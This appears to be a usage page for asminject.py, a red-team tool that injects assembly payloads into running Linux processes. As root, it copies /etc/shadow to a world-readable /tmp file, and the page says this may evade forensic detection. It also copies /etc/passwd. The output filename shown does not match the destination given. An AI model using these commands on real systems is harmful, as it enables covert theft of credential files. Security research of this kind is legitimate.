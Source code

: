 # asminject.py examples - Basic examples
* [Create a world-readable copy of a file using only Linux syscalls](#create-a-world-readable-copy-of-a-file-using-only-linux-syscalls)
* [Create a copy of a file using buffered read/write libc calls](#create-a-copy-of-a-file-using-buffered-readwrite-libc-calls)

## Create a world-readable copy of a file using only Linux syscalls

The `copy_file_using_syscalls.s` payload requires no relative offset information, because it's all done using Linux syscalls. It may also help avoid some methods of forensic detection versus using the `cp`, `cat`, or other shell commands.

In one terminal window, launch one of the practice targets, e.g.:

```
$ python3 practice/python_loop.py

2022-05-12T19:41:23.109251 - Loop count 0
2022-05-12T19:41:28.115898 - Loop count 1
2022-05-12T19:41:33.119542 - Loop count 2
```

In a second terminal window, find the process ID of the target and run `asminject.py` (as `root`) against it.

This payload requires two variables: `sourcefile` and `destfile`.

```
# ps auxww | grep python3 | grep -v grep

root     2036577  [...] python3 practice/python_loop.py

# python3 ./asminject.py 2036577 copy_file_using_syscalls.s \
   --var sourcefile "/etc/shadow" \
   --var destfile "/tmp/bishopfox.txt"

...omitted for brevity...

# cat /tmp/shadow_copied_using_syscalls.txt

root:!:18704:0:99999:7:::
daemon:*:18704:0:99999:7:::
bin:*:18704:0:99999:7:::
sys:*:18704:0:99999:7:::
...omitted for brevity...
```

## Create a copy of a file using buffered read/write libc calls

The `copy_file_using_libc.s` payload uses code that (like the previous example) creates a copy of a file, but by using libc's `fopen()`, `fread()`, `fwrite()`, and `fclose()` instead of syscalls, can easily use a buffered approach that's more efficient.

This payload requires relative offsets for the `libc` shared library used by the target process.

```
# python3 ./asminject.py 1876570 copy_file_using_libc.s \
   --relative-offsets-from-binaries --stop-method "slow" \
   --var sourcefile "/etc/passwd" --var destfile "/var/tmp/copy_test.txt"
```

## Print text to standard output

The `printf.s` payload can be useful for debugging injecting into a particular target. It passes a format string and one parameter to the `libc` `printf` function.

This payload requires relative offsets for the `libc` shared library used by the target process.

```
python3 ./asminject.py 2258 printf.s --arch arm32 \
	--relative-offsets-from-binaries --stop-method "slow" \ 
	--var formatstring "DEBUG: '%s'" \
	--var message "12345"
```